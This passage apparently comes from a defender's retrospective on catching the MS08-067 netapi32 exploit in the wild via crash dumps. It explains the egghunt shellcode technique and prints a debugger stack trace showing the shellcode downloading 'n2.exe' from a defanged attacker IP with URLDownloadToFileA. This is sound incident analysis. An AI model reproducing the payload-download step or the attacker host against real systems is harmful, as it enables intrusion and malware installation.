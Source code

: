 ![alt text](https://github.com/JohnLaTwC/Shared/blob/master/img/MS08067Figure2.png "Svchost crashes")
## Enter !pwnd
What made this tiny bucket stand out?  First, there was an exploit.  We had written a custom debugger extension, colorfully called !pwnd (Windows debugger extensions are invoked by prefixing it with the ‘bang’ symbol). It found shellcode in the crash dump. I reviewed the shellcode and saw that it used an egghunt to find the payload.  An egghunt is an exploit engineering technique used when a buffer overrun is constrained in terms of how much payload can be sent.  The solution is to split the attack into two parts. In the first part, you interact with the target in a benign way, sending over data that contains your real payload preceded by a unique sequence of bytes (the “egg”), but without triggering the vulnerability.  If you do this the right way, your payload sticks around in memory somewhere. Then you trigger the vulnerability and your constrained shellcode searches around in memory for the egg and jumps to it.  This was the first exploit for netapi32.dll that used an egghunt. An eyebrow was raised.
![alt text](https://github.com/JohnLaTwC/Shared/blob/master/img/MS08067Figure3.png "Egghunt")
The second thing unusual about this crash dump was not just the way it failed.  It was the way it was succeeding before it crashed.  I looked beyond the crashing thread to the other threads in the process.  One of them revealed the attacker had already exploited the process and the shellcode was in the middle of downloading a payload using URLDownloadToFileA!

```
0:066> kPn99 
# ChildEBP RetAddr 
00 0150f048 7c90e9ab ntdll!KiFastSystemCallRet(void) 
01 0150f04c 7c8094e2 ntdll!ZwWaitForMultipleObjects(void)+0xc 
...
08 0150f2b4 7813b13a urlmon!CUrlMon::StartBinding(
    int fBindToObject = 0,
    struct IBindCtx * pbc = 0x00185540,
    struct IMoniker * pmkToLeft = 0x00000000,
    struct _GUID * riid = 0x7813b394 {0000000c-0000-0000-c000-000000000046},
    void ** ppvObj = 0x0150f2fc)+0x169 
09 0150f2d8 7815bcd2 urlmon!CUrlMon::BindToStorage( 
    struct IBindCtx * pbc = 0x00185540, 
    struct IMoniker * pmkToLeft = 0x00000000, 
    struct _GUID * riid = 0x7813b394 {0000000c-0000-0000-c000-000000000046}, 
    void ** ppvObj = 0x0150f2fc)+0x49 
0a 0150f31c 781b73d2 urlmon!CBaseBSCB::KickOffDownload( 
    wchar_t * szURL = 0x0150f400 "hxxp://59.106.145.58/n2.exe")+0x193 
0b 0150f330 781b7847 urlmon!CFileDownload::KickOffDownload( 
    wchar_t * szURL = 0x0150f400 "hxxp://59.106.145.58/n2.exe")+0x2d 
0c 0150f348 781b7a4a urlmon!URLDownloadToFileW( 
    struct IUnknown * caller = 0x00000000, 
    wchar_t * szURL = 0x0150f400 "hxxp://59.106.145.58/n2.exe", 
    wchar_t * szFileName = 0x0150f380 "update.exe", 
    unsigned long dwReserved = 0, 
    struct IBindStatusCallback * callback = 0x00000000)+0x51 
0d 0150f480 0150f5b8 urlmon!URLDownloadToFileA( 
    struct IUnknown * caller = 0x00000000, 
    char * szURL = 0x0150f6a1 "hxxp://59.106.145.58/n2.exe", 
    char * szFileName = 0x0150f6d1 "update.exe", 
    unsigned long dwReserved = 0, 
    struct IBindStatusCallback * callback = 0x00000000)+0x109
```
